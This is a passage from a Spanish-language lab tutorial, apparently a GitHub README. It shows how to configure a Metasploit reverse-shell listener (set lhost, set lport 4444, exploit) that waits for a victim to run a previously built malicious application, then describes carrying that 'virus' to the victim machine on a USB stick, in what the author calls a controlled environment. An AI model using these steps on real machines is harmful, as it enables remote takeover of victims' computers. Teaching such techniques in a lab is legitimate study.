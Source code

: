 Seguidamente, vamos a definir por la **dirección IP** y **puerto** que vamos a estar escuchando. Es decir, vamos a configurar por donde el atacante va a escuchar. Para ello definiremos el `lhost` y `lport`. Ten en cuenta que esto que vamos a configurar es para que el atacante pueda estar conectado a la aplicación maliciosa que habíamos creado anteriormente, con lo cual, la IP tiene que ser de la máquina atacante. Para ello se hará uso de estos dos comandos:

```bash
set lhost 192.168.0.26 
```
```bash
set lport 4444 
```
<p align="center"><img width="600" src="/images/Captura-lhost-lport.png"></p>

Ya para terminar, lo único que nos falta es ejecutar el comando `exploit`. Al ejecutar esto, la máquina atacante se quedaría en escucha **hasta que la máquina víctima ejecute el virus**. Finalmente este es el último comando que debes de ejecutar:

```bash
exploit
```
<p align="center"><img width="600" src="/images/Captura-EjecutarExploit.png"></p>

## 3.3. Trasladar el virus a la maquina victima
El siguiente paso será **trasladar el virus a la máquina víctima y ejecutar el virus**. Para hacer esto tenemos varias opciones, pero como estoy en un entorno controlado, lo trasladaré mediante un pendrive.

<p align="center"><img width="600" src="/images/Captura-TransladoVirus.png"></p>
